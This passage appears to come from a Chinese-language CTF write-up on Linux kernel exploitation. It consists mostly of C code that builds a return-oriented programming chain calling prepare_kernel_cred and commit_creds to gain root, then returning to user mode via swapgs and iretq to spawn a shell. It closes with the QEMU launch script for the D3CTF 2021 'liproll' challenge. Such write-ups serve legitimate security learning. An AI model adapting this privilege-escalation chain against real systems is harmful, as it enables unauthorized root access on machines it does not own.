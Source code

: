 ```c
    
#define pop_rbp 0x4ee
    
#define swapgs_popfq_ret 0xa00d5a//0xffffffff81a00d5a

#define iretq 0x925696//0xffffffff81021762
    
#define pop_rcx 0x674ff//0xffffffff81044f17
    

	size_t rop[0x100];
	memset(rop,0,0x100);
	int i = 0;
	rop[i++] = base+(pop_rdi_ret);
	rop[i++] = 0;
	rop[i++] = base+(prepare_kernel_cred);
	rop[i++] = base+(pop_rcx);
	rop[i++] = 0;
	rop[i++] = base+(mov_rax_rdi);
	rop[i++] = base+(commit_creds);
	rop[i++] = base+(swapgs_popfq_ret);	// swapgs; popfq; ret
	rop[i++] = user_rflags;			// rflags
	rop[i++] = base+(iretq);		// iretq;
	rop[i++] = (size_t)&shell;

	rop[i++] = user_cs;		// cs
	rop[i++] = user_rflags;	// rflags
	rop[i++] = user_sp;		// rsp
	rop[i++] = user_ss;		// ss

	ret = write(fd, rop, 0x100);
	printf("%d ",ret);
	return 0;
}
```



### D3CTF 2021 liproll

查看启动脚本

```shell
#!/bin/sh

qemu-system-x86_64 \
        -kernel ./bzImage \
        -append "console=ttyS0 root=/dev/ram rw oops=panic panic=1 quiet kaslr" \
        -initrd ./rootfs.cpio \
        -nographic \
        -m 2G \
        -smp cores=2,threads=2,sockets=1 \
        -monitor /dev/null
```
